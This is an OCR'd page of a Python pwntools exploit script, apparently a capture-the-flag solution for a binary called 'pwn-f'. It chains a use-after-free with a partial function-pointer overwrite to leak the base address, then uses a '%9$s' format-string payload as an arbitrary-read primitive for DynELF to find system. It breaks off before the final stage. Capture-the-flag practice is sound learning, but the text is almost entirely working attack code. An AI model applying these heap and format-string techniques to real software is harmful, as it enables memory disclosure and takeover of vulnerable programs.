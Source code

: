 ```python
    # print '|',sh.recvuntil('\n')[:-1],'|'

def delete_str(idn):
    sh.recvuntil("quit")
    sh.send("delete ")
    sh.recvuntil("id:")
    sh.send(str(idn)+'\n')
    sh.recvuntil("?:")
    sh.send("yes"+"\n")

def leak(addr):
    delete_str(0)    
    payload = 'a%9$s'.ljust(0x18,'#') + p64(printf_addr)
    create_str(0x20,payload)
    sh.recvuntil("quit")
    sh.send("delete ")    
    sh.recvuntil("id:")
    sh.send(str(1)+'\n')
    sh.recvuntil("?:")
    sh.send("yes.1111"+p64(addr)+"\n")  
    sh.recvuntil('a')
    data = sh.recvuntil('####')[:-4]
    if len(data) == 0:
        return '\x00'
    if len(data) <= 8:
        print hex(u64(data.ljust(8,'\x00')))
    return data

def main():
    global printf_addr#set global printf addr cus leak() use it 
    
    #step 1 create & delete
    create_str(4,'aa')
    create_str(4,'aa')
    delete_str(1)
    delete_str(0)
    
    #step 2 recover old function addr
    pwn = ELF('./pwn-f')
    payload = "aaaaaaaa".ljust(0x18,'b')+'\x2d'
    # recover low bits,the reason why i choose \x2d is that the system flow decide by
    create_str(0x20,payload)
    delete_str(1) # 泄露内存地址
    
    #step 3 leak base addr
    sh.recvuntil('b'*0x10)
    data = sh.recvuntil('\n')[:-1]
    if len(data)>8:
        data=data[:8]    
    data = u64(data.ljust(0x8,'\x00'))# leaked puts address use it to calc base addr
    base_addr = data - 0xd2d
    
    #step 4 get printf func addr
    printf_offset = pwn.plt['printf']
    printf_addr = base_addr + printf_offset #get real printf addr
    delete_str(0)   #free
    gdb.attach(sh)
    
    # #step 5 leak system addr
    create_str(0x20,'payload')
    delete_str(1)
    #this one can not be ignore because DynELF use the delete_str() at begin  
    d = DynELF(leak, base_addr, elf=ELF('./pwn-f'))
```